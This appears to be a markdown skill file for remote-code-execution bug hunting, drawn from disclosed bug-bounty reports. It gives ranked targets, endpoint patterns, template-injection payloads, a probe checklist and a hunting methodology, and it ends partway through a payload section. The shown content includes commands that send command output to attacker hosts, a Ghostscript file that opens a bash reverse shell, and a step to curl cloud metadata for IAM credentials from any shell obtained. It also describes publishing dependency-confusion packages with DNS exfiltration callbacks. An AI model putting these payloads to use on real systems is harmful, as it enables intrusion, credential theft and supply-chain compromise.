


## Crown Jewel Targets

RCE pays highest when attacker bytes reach an interpreter that already has privileges. Priority targets, ranked by the disclosed reports that built this skill (frequency across the **470 full reports** in parentheses):

- **Search / filter / sort endpoints on self-hosted Git** (search-filter-sort 153) — the single highest-frequency feature signal. One GitLab program produced #658013, #1154542, #1125425, #1609965, #653125, #733072. `ref`, `repository_ref`, `ref_name`, `scope`, `order_by` become git flags or search-query strings; search endpoints are often unauthenticated.
- **Public code / repository search** (public-code-search 138) — dependency confusion against npm, PyPI, RubyGems and GitHub Actions `pull_request_target`. PayPal (#925585) and Uber (#1007014) paid $30k/$9k; Yelp (#946409), Mail.ru (#1104693) and DuckDuckGo (#3619287, #3619288) show the same class. The build farm is the crown jewel, not the web app.
- **Image/metadata processing pipelines** (image-processing 135, file-upload 70) — ExifTool, ImageMagick/Ghostscript, ffmpeg, file-type sniffers. GitLab (#1154542), Semrush (#403417), Shopify kitcrm (#422944), Basecamp (#365271) all paid/awarded for "upload a crafted image" RCE. Content sniffing, not the extension, chooses the parser.
- **Server-side rendering and template engines** (SSR 97, template-engine 40, template-injection 36) — Kramdown, Smarty, Jinja2, Velocity, Freemarker, EJS, WikiCloth, Liquid. Options are data until a `const_get`/`require`/`eval` turns them into code (#1125425, #125980, #164224, #538771).
- **JS / client source review** (js-source-review 91) — bundles, sourcemaps and minified caches reveal hidden endpoints and the exact parameter names sent to backends. Imgur #212696 and GitLab #1672388 both began from source review of a feature's implementation.
- **Admin / internal panels and exposed consoles** (admin-internal 79, debug-error-leak 40) — Jenkins `/jenkins/script` (DoD #2083771), Groovy console (#672243), JMXInvoker (#1456063, #153026), Solr (`solr/`, #962013), Pentaho with default creds (#1677047), and `/admin/*` uploads that are only a redirect (#683957). These carry root-equivalent primitives with no auth.
- **Command / exec wrappers and API endpoints** (command-injection 76, api-endpoint 72) — `gzip | wc`, `git log`, `gm convert`, `unrar`, string-built `Open3.popen3`. The string-vs-array distinction at the exec boundary is the whole bug (#1609965, #212696, #546753).
- **Path traversal, file upload and LFI** (path-traversal-lfi 72, file-upload 70) — a write primitive becomes RCE when it lands in `authorized_keys`, a native lib dir, cron, or webroot (#733072, #2995025, #519220, #1072832).
- **Internal-network reachability and redirect handling** (internal-network 68, redirect-handling 52) — SSRF/import features pivot to unauthenticated internal services (Jira→Confluence #713900, Kafka Connect→Jolokia #1547877, Airflow fastCGI #1354335).
- **Native-code network message parsers** — game clients (Steam/Source, CS:GO), SSL VPNs, routers, curl. Valve #470520, #513154, #807772, #584603, #544096 and Twitter/X #591295 are the canonical shapes: unchecked indices, missing upper bounds, unbounded expansion into fixed buffers (#3788482), `strcpy` overflows (#2871792).
- **Deserialization endpoints and cookies** (deserialization 50) — Java/JBoss JMXInvoker, Telerik `CVE-2019-18935`, SharePoint `CVE-2019-0604`, Ruby `Marshal.load`, PHP `unserialize`, Python pickle, .NET `ViewState`, RDoc `.rdoc_options`. #221294, #153026, #838196, #536134, #274990, #2438265.
- **Desktop/WebView clients** — Electron (`nodeIntegration`, `contextIsolation: false`) and Android WebViews with `JavascriptInterface`. Slack #783877, TikTok #1065500, Basecamp #1016966, Rocket.Chat desktop, Nord #1001255.

Payouts peak when the primitive is unauthenticated, chains to cloud IAM credentials (DoD #2083771 used Jenkins RCE to curl `169.254.169.254`), or gives persistent access (SSH key, native library, cron) rather than a one-shot command.

---

## Attack Surface Signals

### Endpoint / parameter patterns
```
/upload?file=            /import?url=             /api/*/search?scope=
/api/*/render            /preview?format=         /edit/process?a=crop&x=&y=
/api/v4/projects/*/search?scope=wiki_blobs&ref=   /import/bulk_imports.json
/wiki/*/page.rmd         /api/*/export            /my_reports/constructor
api/v4/projects/*/repository/commits?ref_name=   /packages/maven/.../..%2f.ssh%2fauthorized_keys
/rest/tinymce/1/macro/preview                    /pages/createpage-entervariables.action
jars/{jar_id}/plan       /jenkins/script          /get_zip.php?juid=
?template=               ?cmd=                    ?driver=                ?ref=
?rdExportFilename=       ?rdReportName=           ?run_id=                ?filter=
```

### File upload & media processing
```
# Danger signal: extension allowlist only, content sniffed by the library
filename="echo_vakzz.jpg"     # actually a DjVu file (GitLab #1154542)
filename="test.jpg"           # actually PostScript (Semrush #403417, Basecamp #365271)
filename="rce.gif"            # actually PostScript/EPS renamed (Basecamp #365271)
filename="logo.png"           # actually MVG/SVG (ImageTragick)
# Danger signal: image pipeline with Ghostscript/PostScript/PDF delegates enabled
grep -rn "policy.xml\|ghostscript\|gs " /etc/ImageMagick*   # `identify` sniffs content too
# Profile-picture / avatar endpoints that accept any file type (#1164452, #135072)
```

### Deserialization sinks
```
grep -rE "yaml\.load\b|YAML\.load\(|new Yaml\(|pickle\.loads?|unserialize\(|Marshal\.load" .
grep -rn "ObjectInputStream|readObject|ScriptEngineManager|JdbcRowSetImpl|XMLDecoder" --include="*.java" .
grep -rn "JMXInvokerServlet|EJBInvokerServlet|JndiLoginModule" .   # JBoss/Kafka (#221294, #153026, #1529790)
# PHP GMP unserialize type confusion (#198734); Rails CookieStore + leaked secret_key_base (#134321)
```

### Template / expression engines
```
# Kramdown inline options (GitLab #1125425) — options are data, not code, until const_get
{::options syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: ...}" /}

# Smarty (Unikrn #164224) — {php} tags delivered through a profile field, fired on email invite
{7*7}   {$smarty.version}   {php}print "Hello"{/php}
{php}$s = file_get_contents('/etc/passwd',NULL,NULL,0,100); var_dump($s);{/php}

# Velocity (DoD #538771) — _template parameter in a macro preview endpoint
{"contentId":"12345","macro":{"name":"widget","body":"","params":{"_template":"file://../"}}}

# Generic SSTI polyglot: Jinja2 / Twig / Freemarker / Velocity / Smarty
{{7*7}}${7*7}#{7*7}<%= 7*7 %>*{7*7}
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}   # Uber #125980 family
{{ [].__class__.__base__.__subclasses__() }}                       # Uber #125980 verbatim

# PrimeFaces EL injection via URL (DoD #248116); VMware Workspace ONE SSTI (CVE-2022-22954, #1537543)
# Angular template injection on a support site (#271960); Airflow BashOperator run_id (#1776476)
```

### Native code / memory corruption
```
# Unchecked indices, lengths, counts in binary message parsers (Valve cluster)
"unchecked weapon id in WeaponList message parser"        # Valve #513154
"OOB reads in network message handlers"                   # Valve #807772
"unsanitized entity ID in EntityMsg message"              # Valve #584603
"malformed .BSP Access Violation"                         # Valve #351014
"unchecked number of audio channels in Mobiclip SDK"      # Nintendo #897606
"2x expansion into 387-byte stack buffer in quote_name()" # mariadb-dump #3788482
"unbounded expansion in strcpy()"                         # curl #2871792
# Look for memcpy/strcpy/sscanf/array[index] without bounds checks
```

### Command / exec sinks (string vs array is the bug)
```ruby
Open3.popen3("gzip -dc #{@archive_path} | wc -c", pgroup: true)  # GitLab #1609965
git log --max-count=1 --output=/tmp/file    # ref injected as argv → git flag injection
grep -rE "exec|system|popen|Open3|ProcessBuilder|Runtime\.getRuntime|shell\.openExternal" .
# Node 'insecure command formatting' family: bunyan #902739, tree-kill #701183, blamer #772448
# ProxyCommand / ProxyJump hostname injection (#2293731); Jenkins Groovy `String.execute()` (#2083771)
```

### Dependency / package confusion
```json
{ "dependencies": { "express": "^4.3.0", "pplogger": "^0.2" } }
```
```
# Internal names leak in JS bundles, sourcemaps, package.json on public GitHub
grep -r '"name"' node_modules/ | grep -E '@internal|@company|@private'
pip install --extra-index-url https://internal.example.com/simple library   # Yelp #946409
# GitHub Actions with pull_request_target + npm install on untrusted fork PRs (#3619287, #3619288)
# Unclaimed S3 bucket in installation script → code execution (#399166)
```

### Tech-stack / header signals
```
X-Powered-By: Express / X-Runtime: Ruby   # npm / Rails + Kramdown + popen3 + ExifTool
Server: nginx                             # ingress annotation injection (#1620702)
Content-Type: application/xml             # SOAP/XML APIs with SQL backends (#816254, #592400)
Electron/Chromium user-agent              # desktop client → nodeIntegration (#783877)
Apache Tomcat / write-enabled Default Servlet + partial PUT (#3031518, #2905013)
Exposed JMX / Groovy Console / Solr / Jenkins unauth (#1456063, #672243, #962013, #579760, #1125329)
/jenkins/script enabled                   # Groovy script console → IMDS (#2083771)
```

---

## Discovery Patterns From 470 Full Reports

This section is new material mined from the **full text of 470 disclosed reports** in the RCE corpus. The counts are the number of full reports containing each signal; they describe where real researchers actually start and which features actually pay, not a theoretical taxonomy.

### Where Researchers Start

Ranked recon surfaces from the mined frequency table (count of full reports in parentheses), with what to look for at each:

1. **Search / filter / sort parameters — 153 reports.** The single most common starting point; values become git flags, sort-column identifiers or search-query strings, and search endpoints are often unauthenticated. *What to look for:* `--output=`, `--no-index`, `--exec=` injected into `ref`/`repository_ref`/`ref_name`/`scope`; unauthenticated `/search` with `project_id=`; `filter=` reaching shell commands (Shopify #73567). One program yielded #658013, #653125, #1125425, #1609965.

2. **Public code / repository search — 138 reports.** Search GitHub/GitLab/Bitbucket for the target's repos, `package.json`, `Gemfile`, CI configs, Dockerfiles and leaked internal hostnames. *What to look for:* unclaimed internal dependency names (#925585, #946409, #1007014), `.npmrc`/`pip.conf` falling back to public registries, `pull_request_target` workflows running untrusted PR code (#3619287, #3619288), hardcoded deploy keys and static Rails secrets (Imgur #206227, Algolia #134321), installation scripts referencing unclaimed S3 buckets (Rocket.Chat #399166), and source that reveals git command builders or template-render calls.

3. **Image & media processing — 135 reports.** Upload features where the library sniffs magic bytes, not the extension. *What to look for:* `.jpg` that is really DjVu/PostScript/MVG (#1154542, #403417, #365271, #422944); crop/resize parameters appended to `gm convert` (#212696); self-hosted image pipelines with Ghostscript delegates enabled; profile-picture uploads accepting any file type (#1164452).

4. **Server-side rendering / template engines — 97 SSR + 40 template-engine + 36 template-injection.** *What to look for:* inline options that instantiate classes (`{::options ...}`, #1125425); `{{7*7}}`/`${7*7}` reflected in rendered emails (#125980, #164224); `_template=file://../` in macro previews (#538771); PrimeFaces EL injection from a URL (#248116); Airflow `bash_command='echo "{{ run_id }}"'` (#1776476); old WebKit HTML agent in a template-preview function (#520717).

5. **JS / client source review — 91 reports.** Bundles, sourcemaps and minified caches reveal hidden endpoints and exact parameter names. *What to look for:* `require('...')` naming private packages, endpoint URLs never in the DOM, `evaluateJavascript`/bridge method names, upload field names, and `update_host`-style SSRF parameters (50m-ctf #513525). Imgur #212696 noticed "strange behaviour" of a crop parameter; GitLab #1672388 began by reading Octokit/Sawyer source.

6. **Admin / internal panels and debug consoles — 79 admin-internal + 40 debug-error-leak.** Management interfaces reached by stopping a redirect, bypassing auth, or finding default credentials; verbose errors enumerate versions. *What to look for:* `/admin/*` that still accepts uploads when the login redirect is interrupted (Mail.ru #683957), `/jenkins/script` (DoD #2083771), Groovy at `accounts.informatica.com` (#672243), exposed JMX (#1456063, #153026), Solr `solr/` (#962013), unconfigured Portainer reaching 17 Docker containers (#1332433), default creds on Cisco TelePresence (#684070), stack traces naming Telerik v2016.x (DoD #838196), Django debug pages leaking AWS keys and `SECRET_KEY` (Mail.ru #1083543).

7. **Command / exec wrappers & API endpoints — 76 command-injection + 72 api-endpoint.** *What to look for:* `Open3.popen3("gzip -dc #{@archive_path} | wc -c")` (#1609965), `unrar` in the Extract plugin (#546753), `?rdExportFilename=` writing a webshell (#1072832), fastify serialization-schema property names reaching RCE (#532667), and `exec(code, namespace)` in an MCP diagram server (#3557138).

8. **Path traversal, file upload & LFI — 72 path-traversal + 70 file-upload.** *What to look for:* Maven-registry traversal to `.ssh/authorized_keys` (#733072), null-byte extension truncation (#2054184), Zip Slip into native library dirs (#1065500), `actionpack-page_caching` writing ERB outside the cache dir (#519220), and unrestricted uploads reaching a webroot (#84374, #683965).

9. **Internal-network reachability & redirect handling — 68 internal-network + 52 redirect-handling.** *What to look for:* SSRF/import features pivoting to internal Confluence (#713900), Jolokia (#1547877), or IMDS (#422944); attacker-controlled proxy hostnames reaching `ProxyCommand` (#2293731); malicious MySQL server overflowing `mariadb-dump` (#3788482).

10. **Filter/WAF bypass & cache layer — 60 filter-bypass + 45 cache-layer.** *What to look for:* base64-smuggled imageResize commands (LocalTapiola #303061), JSON-escaped `>` replaced with `|tee` (#1609965), feature flags bypassed via `source_type=project_entity` (#1609965), CI build-cache poisoning (#2255750), and delayed execution after import retries.

11. **Deserialization & dependency confusion — 50 deserialization + 45 dependency-confusion.** *What to look for:* Ruby `Marshal` via cache objects (#1672388) or a leaked Rails `secret_key_base` (#134321), Java objects to JBossMQ (#221294, #153026), GMP type confusion in MyBB (#198734), Telerik assembly upload (#838196), and unclaimed packages on npm/PyPI (#925585, #946409, #1763343).

12. **XML parsers — 44 xml-parser + 5 xxe.** *What to look for:* C-CDA XML with `<!DOCTYPE ... SYSTEM "file:///etc/passwd">` (#55431), PeopleSoft XML deserialization (#329400, #227880), and WebLogic `XMLDecoder` with a sleep payload (#576887).

### Feature-Based Discovery Signals

Frequency-ranked table of suspicious sinks from the 470 full reports. "Why it matters" is the observed root cause; "what to probe" is the concrete first action.

| Signal (reports) | Why it matters | What to probe |
|---|---|---|
| Search / filter / sort params — **153** | Values become git flags, search query language, or sort-column identifiers; search endpoints are often unauthenticated (#658013, #653125, #73567). | Inject `--output=`, `--no-index`, `--exec=` into `ref`/`repository_ref`/`ref_name`/`scope`/`filter`; try `project_id=` on the unauth `/search` route. |
| Public code search — **138** | Private names, static secrets and CI configs are public; registries prefer higher versions and execute install scripts (#925585, #946409, #134321). | Gitrob-style scan of org repos for `secret_token.rb`, `.npmrc`, `package.json`, `pull_request_target`; check each internal name on the public registry. |
| Image / media processing — **135** | Extension allowlists are defeated by magic-byte sniffing; the library chooses a dangerous parser/executable (#1154542, #403417, #365271, #422944). | Rename DjVu/PostScript/MVG to `.jpg`/`.gif`; test harmless marker command first; check `identify`/`exiftool -ver` and `policy.xml`. |
| Server-side rendering — **97** SSR, 40 template-engine, 36 template-injection | Options/templates instantiate classes or call `os.popen`/`eval` (#1125425, #125980, #164224, #538771, #3122019). | Feed `{::options ...}`, `{{7*7}}`, `${7*7}`, `{php}`, `_template=file://../`, `{{ run_id }}`; look for object instantiation, not just `49`. |
| JS source review — **91** | Bundles expose hidden endpoints and private package names used for dependency confusion and argument injection (#212696, #1672388, #513525). | Grep bundles for `require(...)`, API URLs, `evaluateJavascript`, upload field names, `update_host`. |
| Admin / internal tools — **79** | Access control is often only a redirect; management consoles carry root-equivalent primitives (#683957, #2083771, #1677047). | Interrupt the login redirect, try default creds, hit `/jenkins/script`, Groovy, JMX, `solr/`. |
| Command / exec wrappers — **76** | String-built commands let shell metacharacters become syntax; argv builders allow flag injection (#1609965, #546753, #303061). | `;id`, `|id`, `$(id)`, backticks, `${IFS}`; append `-write |sh` / `--output=`; base64-smuggle when filters strip symbols. |
| API endpoints — **72** | Unrestricted endpoints load classes or control file paths (#1418891, #1072832, #532667). | Enumerate `jars/{jar_id}/plan`, export/report params, and schema property names; supply arguments to loaded classes. |
| Path traversal / file ops — **72** | A write primitive becomes RCE when it lands in `authorized_keys`, a native lib dir, cron, or webroot (#733072, #2995025, #519220). | Probe `..%2f` sequences in package/import APIs; aim writes at `.ssh/authorized_keys` or `app_lib/.../*.so`. |
| File upload (generic / webshell / path) — **70** | Unrestricted upload or null-byte truncation lands executable content in the webroot (#84374, #2054184, #683965). | Null byte between extensions, double extensions, directory traversal in the filename, then request the uploaded path. |
| Internal-network reachability — **68** | SSRF/import features pivot to unauthenticated internal services (Jira→Confluence #713900, Kafka Connect→Jolokia #1547877). | Reach internal admin panels, Jolokia, JMX, metadata; look for chained RCE on the internal host. |
| Comment injection — **61** / stored — **32** | Payloads stored in profile fields, chat or comments fire when another context renders them (#164224, #631956, #1016966). | Seed `{php}`, raw HTML with `html="true"`, or XSS into fields rendered in emails/UI. |
| Filter / WAF bypass — **60** | Validation is applied to a different representation than the one executed (#303061's base64, #683957's redirect, #1609965's feature flag). | Base64/double-encode, JSON-escape `>` as `\u003c`, use `|tee`/`curl|sh`, bypass feature flags via hidden endpoints. |
| Redirect handling — **52** | Login-only access control is defeated by interrupting the redirect; attacker-controlled hosts reach command builders (#683957, #2293731). | Drop the redirect response in Burp; test proxy hostnames for shell metacharacters. |
| Deserialization — **50** | Gadget chains turn data into `Runtime.exec`/`qx` (#221294, #838196, #274990, #2438265, #198734). | Feed ysoserial/pickle/`Marshal`/`Gem::Installer` gadgets into cookies, form fields, XML blobs and `.rdoc_options`. |
| Cache layer — **45** | Cache keys and build caches are writable and later deserialized/executed (#1672388, #2255750, #519220). | Poison cache keys, CI caches, and page-cache file paths with serialized objects or ERB. |
| Dependency confusion — **45** | Public registries prefer higher versions and execute install scripts (#925585, #946409, #1007014, #1763343). | Publish higher-version canary packages with `preinstall`/`setup.py` callbacks exfiltrating `hostname` via DNS. |
| XML parser / XXE — **44** (+5 xxe) | External entities fetch files or reach command execution (#55431, #227880, #576887). | C-CDA/XML upload with `<!DOCTYPE ... SYSTEM "file:///etc/passwd">`; escalate XXE to RCE where the parser supports it. |
| Template engine (explicit) — **40** / template-injection — **36** | Render options call `require`/`eval` or instantiate arbitrary classes (#1125425, #125980, #164224). | Polyglot probes; then read the engine's option names for class-loading gadgets. |
| Debug / error leak — **40** | Verbose errors enumerate versions and internal paths; match to a known RCE CVE (#838196, #1083543, #206227). | Trigger stack traces; grep for library version strings; check version banners against CVE lists. |
| Blind OOB — **29** / time-based — **9** | Execution is invisible; encode output in DNS or timing (#838196, #73567, #576887). | 10-second sleep, DNS callback `nslookup $(whoami).YOUR.oast.pro`, then escalate to output-bearing proof. |
| Cloud metadata — **23** | RCE on a cloud host reaches IMDS credentials (#422944, #2083771). | From the shell, curl `169.254.169.254/latest/meta-data/iam/security-credentials/`. |
| Base64 encoding — **23** | Encoding smuggles shell syntax past filters (#303061). | Base64-encode the command and pipe through `base64 -d | sh`. |

### Verbatim Discovery Clues

Real "how I found it" lines, reproduced from the 470-report corpus (lightly cleaned by the original miner):

- [#212696] I was searching for CVE-2016-10033-like vulnerabilities on several bugbounty sites when I noticed strange behaviour of the mentioned parameter.
- [#212696] The most popular one is ImageMagick/GraphicsMagick, so I appended ` -rotate 90` to the parameter and it succeded --- I saw lying Trump (I mean, the image was rotated).
- [#212696] After more tries I was sure it's GraphicsMagick (probably `gm convert` utility).
- [#946409] en claimed by an attacker, this would have led to arbitrary code execution on the affected server, as well as allowing the attacker to add backdoors inside the affected project(s) during the build process.
- [#1672388] As gitlab uses redis as a cache storage, so I tried to reach RCE via `Marshal.`
- [#838196] I found an outdated version of Telerik Web UI (v2016.
- [#838196] First of all, the only thing that I tried to prove that I had successfully achieved code execution was making the server sleep for 10 seconds.
- [#153026] I found an open JMXInvokerServlet/EJBInvokerServlet and normally I should be able to get a shell just by doing that.
- [#519220] I found a directory traversal in `actionpack-page_caching`.
- [#2054184] I found that if you place a null byte between file extensions, you can upload files with malicious extensions.
- [#248116] Using only an URL I was able to inject java code.
- [#164224] I've found an issue which has allowed me to execute file_get_contents and extract your /etc/passwd file.
- [#134321] While doing recon on Algolia, I found that the session secret for facebooksearch.
- [#962013] Hello, I found a solr unauth at https://██████/solr/
- [#399166] So I decided to see if I could access the contents of that S3 bucket.
- [#322935] I found an off-by-one in Exim MTA utility function.
- [#98559] It was easy to find the Jenkins instance because its name is easy guessable (only later on I found out its also being linked to from your GitHub page).
- [#1763343] I found dependency confusion vulnerability in your aries mobile agent.

### Probe Checklist

Concrete first probes derived from the clues above — work top to bottom:

1. `grep` the target's public repos and JS bundles for internal package names, `require()` calls, `secret_token.rb`, hidden API endpoints and `pull_request_target` workflows (public-code-search 138, js-source-review 91).
2. Check each leaked internal package name on the public registry; if unclaimed, publish a higher version with a `preinstall`/`setup.py` DNS canary (#925585, #946409, #1763343).
3. For every image/media upload, rename a PostScript/DjVu/MVG payload to `.jpg`/`.gif` and upload; watch for a callback before trying a shell (#1154542, #403417, #365271).
4. Append `-rotate 90` (or another harmless delegate flag) to image crop/resize parameters to confirm the backend shells out to ImageMagick/GraphicsMagick (#212696).
5. Inject `--output=...`, `--no-index`, `--exec=...` into `ref`, `repository_ref`, `ref_name`, `scope` and `order_by` params on search/commit APIs (#658013, #653125).
6. Target unauthenticated `/search` variants with `project_id=`/`repository_ref=` when the authenticated API is patched (#658013).
7. Hit exposed management/debug surfaces directly: `/jenkins/script`, Groovy console, JMX, Solr `solr/`, unconfigured Portainer, default creds on appliances (#2083771, #672243, #962013, #1332433, #684070).
8. Probe template fields and rendered emails with `{{7*7}}`, `${7*7}`, `{php}`, `{::options ...}`, `_template=file://../`, `{{ run_id }}` and PrimeFaces EL payloads (#125980, #164224, #1125425, #538771, #248116, #1776476).
9. Submit serialized-object bytes to cookies, `xml` blobs, cache keys and `.rdoc_options`; use a harmless sleep or DNS gadget first (#221294, #838196, #134321, #2438265).
10. For file-creation primitives, aim a traversal at `~/.ssh/authorized_keys`, `app_lib/.../*.so`, or a webroot path, then verify with SSH or a library load (#733072, #1065500, #2995025, #1072832).
11. For blind native/crash bugs, prove control of the index/pointer rather than just a segfault or a 10-second sleep (#838196, #513154, #807772, #3788482).
12. Interrupt redirects on `/admin/*` paths to defeat login-only access control on upload endpoints (#683957).
13. Match discovered versions to known RCE CVEs (Telerik CVE-2019-18935, Confluence CVE-2021-26084, ForgeRock CVE-2021-35464, Pulse CVE-2019-11510, WebLogic CVE-2017-10271, WebLogic/XMLDecoder, php-fpm CVE-2019-11043) and exploit fast (#591295, #838196, #576887, #1248052).
14. From any obtained shell, immediately curl `http://169.254.169.254/latest/meta-data/iam/security-credentials/` — RCE on a cloud host is also credential theft (#422944, #2083771).
15. Base64/double-encode payloads and replace `>` redirection with `|tee` or `curl|sh` when JSON serializers escape it (#303061, #1609965).

---

## Step-by-Step Hunting Methodology

1. **Map every execution context before sending payloads.** Where does user input touch: a shell (`Open3.popen3`, `Runtime.exec`, `xp_cmdshell`, `String.execute()`), an interpreter (YAML, ERB, Jinja2, Kramdown, ExifTool's Perl `eval`, Smarty, EL), a filesystem write (upload dir, `.ssh/authorized_keys`, native library dir), a package resolver, or a native parser? An input with no interpreter behind it cannot be RCE. Mine the 470-report frequency table above to prioritize: start with search/filter params (153), public code search (138) and uploads (135) before exotic surfaces.

2. **Start with public-code search and JS review — the two most common researcher entry points.** Harvest internal package names, source files that build commands, and hidden endpoints from GitHub, sourcemaps and bundles. Real flows: Imgur #212696 noticed "strange behaviour" of a crop parameter while hunting CVE-2016-10033-like bugs, then confirmed GraphicsMagick by appending `-rotate 90`; GitLab #1672388 began by reading GitLab's Octokit/Sawyer source and noticed `id` could be a hash whose `to_s`/`bytesize` inject Redis commands; Valve #631956 `grep`ped Panorama layout XML for `html="true"`; Algolia #134321 found a committed Rails session secret with Gitrob.

3. **Fingerprint the processor, not just the web server.** For uploads: `identify -version`, `exiftool -ver`, ImageMagick policy contents. For GitLab: check version against 13.10.3 / 13.9.4 / 15.1.1 / 12.1.6. For VPNs: match banners to CVE-2019-11510/11542. For Telerik/Confluence/ForgeRock/Tomcat/WebLogic: match to CVE-2019-18935 / CVE-2021-26084 / CVE-2021-35464 / CVE-2025-24813 / CVE-2017-10271. Known CVE + exposed surface is a fast critical — DoD #838196 and #576887 both started from a known-vulnerable component.

4. **Attack the upload pipeline with content/extension mismatch.** Rename a PostScript/DjVu/MVG file to `.jpg`/`.gif`. Both ExifTool and ImageMagick sniff magic bytes and ignore the extension. Test with a harmless marker command (`echo PWNED > /tmp/pwned`, or a 10-second sleep for blind confirmation) before a reverse shell. Verify on a Semrush/Basecamp-style logo or profile-image endpoint (#403417, #365271, #1164452).

5. **Test every package name you can find for dependency confusion.** Harvest private names from JS bundles, public GitHub `package.json`, sourcemaps, and error logs. Publish a higher-version package with a `preinstall`/`setup.py` canary that exfiltrates `hostname`/`whoami` via DNS (hex-encoded in the subdomain). Only claim RCE when a callback arrives from infrastructure you can attribute to the target — Yelp #946409 recorded the originating IP (`54.71.19.248`), hostname (`10-81-21-60-uswest2bdevc...`) and working directory from its own build server.

6. **Audit all argv builders for flag injection.** If user input is appended to a command as an *argument* (not shell string), inject `--output=`, `--exec=`, `--config=`, `--no-index`, `-write |cmd`. GitLab #658013 turned `ref=--output=/var/opt/gitlab/.ssh/authorized_keys` into SSH access; #653125 did the same via the Commits API `ref_name`; Imgur #212696 used `y=0 -write |ps${IFS}aux|curl ...` against `gm convert`; Shopify #73567 used `$(`sleep 20`)` in a `filter` parameter.

7. **Test inline options in any markup/wiki/render feature.** `.rmd`, `.md`, email templates, PDF generators, macro previews. Feed `{::options ...}` / `{{...}}` / `${...}` / `_template=file://../` / EL expressions and look for object instantiation, `require`, or command execution — not just reflected `49`. Uber #125980 reflected `{{ '7'*7 }}` as `7777777` in a support email; Unikrn #164224 escalated `{php}` tags in profile fields to `file_get_contents('/etc/passwd')`; DoD #248116 injected Java code through a URL.

8. **For SQL injection, immediately test OS escalation.** Confirm SQLi blind via OOB DNS, then try `xp_cmdshell` (MSSQL), `COPY ... FROM PROGRAM` (Postgres), `UTL_HTTP`/`DBMS_SCHEDULER` (Oracle). A blind SQLi with no exec primitive is Medium; with `xp_cmdshell` it is Critical (QIWI #816254, Starbucks #592400 found via a browsable WSDL on a non-standard port).

9. **Fuzz native parsers with structured malformed messages.** For game/VPN/DB clients, mutate length fields, weapon/entity IDs, message counts and string-expansion factors; run under a debugger or ASAN if you have binaries. Crash → control of index/pointer → RCE (Valve #513154 `rgWeapons[wp->iId]` with `iId` in `[-128,128)`; #807772 entity-index upper bounds; #470520 Server Info buffer overflow; mariadb-dump #3788482 `quote_name()` 2x expansion into a 387-byte buffer). Trigger by connecting the victim to an attacker-controlled server — no auth required.

10. **Hunt desktop-client RCE via WebView/Electron/custom protocols.** Check `nodeIntegration`, `contextIsolation`, `webSecurity`, custom protocol handlers, and JS bridges. Combine any XSS/open redirect with the bridge to spawn a process (Slack #783877 leaked `BrowserWindow` and created one with `nodeIntegration: true`; TikTok #1065500 chained four bugs to native library overwrite; Nord #1001255 reached `Process.Start("calc.exe")` through `NordVPN.Notification:`; Nextcloud #1078002 abused `QDesktopServices::openUrl()` with an `sftp://...x-proxytelnetcommand=calc.exe@foo.bar/` URL).

11. **Check archive/backup/import/export utilities for shell-outs and arbitrary writes.** Look for `popen`, backticks, `system`, and string-built commands in import validators and plugins. GitLab #1609965 hid its sink behind a feature flag reachable by `POST /import/bulk_imports.json`; Nextcloud #546753 found `unrar` command injection in the "Extract" plugin; DoD #1072832 wrote a webshell via `?rdExportFilename=` + `?rdReportName=`; ExpressionEngine #335761 and #1776476 (Airflow `run_id`) show import/execute-feature variants.

12. **Turn file-write into durable execution.** An arbitrary write is not RCE until it lands somewhere executed: `authorized_keys`, `app_lib/*.so`, cron, webroot, startup folder, or a gem/driver that `require` loads. GitLab #733072 wrote through a Maven registry path traversal to `.ssh/authorized_keys`; Mozilla #2995025 used `live_reload` remote-file writes; TikTok #1065500 used Zip Slip to `libjsc.so`; Valve #544096 used Windows path truncation (256-byte buffer vs `MAX_PATH` 260) to switch a `.vmt` into a `.js` opened by `ShellExecute`.

13. **Prove execution and document the chain.** Capture `id`/`whoami` output, a file created with known content, or an OOB hit with a unique marker — "the app processed my file" is a DoS, not RCE. A 10-second sleep alone is weak proof (DoD #838196 used it only as a first step). Ship one reproducible PoC: request, payload file, listener output, affected version.

14. **Escalate via internal reachability and cloud metadata when the web surface is only a pivot.** SSRF in Jira reached Confluence RCE (#713900); Kafka Connect reached internal Jolokia (#1547877); Shopify kitcrm used RCE to steal AWS IMDS credentials (#422944); DoD #2083771 ran `println "curl http://169.254.169.254/latest/meta-data/iam/security-credentials/AmazonSSMRoleForInstancesQuickSetup".execute().text` in a Jenkins script console. When a primitive lands on an internal host, enumerate its unauthenticated admin interfaces and repeat steps 1–13 there.

---

## Payload & Detection Patterns

### Shell command injection & OOB confirmation
```bash
# Operators, in prevalence order
value;id        value|id        value&&id       value$(id)      value`id`

# Blind RCE: encode command output into a DNS label (no output channel needed)
curl "http://$(id | base64 | tr -d '=\n').YOUR.oast.pro/"
nslookup $(whoami).YOUR.oast.pro
wget http://attacker.com/$(cat /etc/hostname)

# Filter evasions: cat${IFS}/etc/passwd ; {cat,/etc/passwd} ; $'\ncurl attacker/x.sh|sh\n'
```

### ImageTragick / Ghostscript (Semrush #403417, Shopify #422944, Basecamp #365271)
```postscript
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%bash -c 'bash -i >& /dev/tcp/203.0.113.5/8080 0>&1') currentdevice putdeviceprops
```
```
# Save as test.jpg / rce.gif and upload — extension is irrelevant to ImageMagick
# Shopify kitcrm variant used %pipe%python -c '<socket reverse shell>'
push graphic-context
viewbox 0 0 640 480
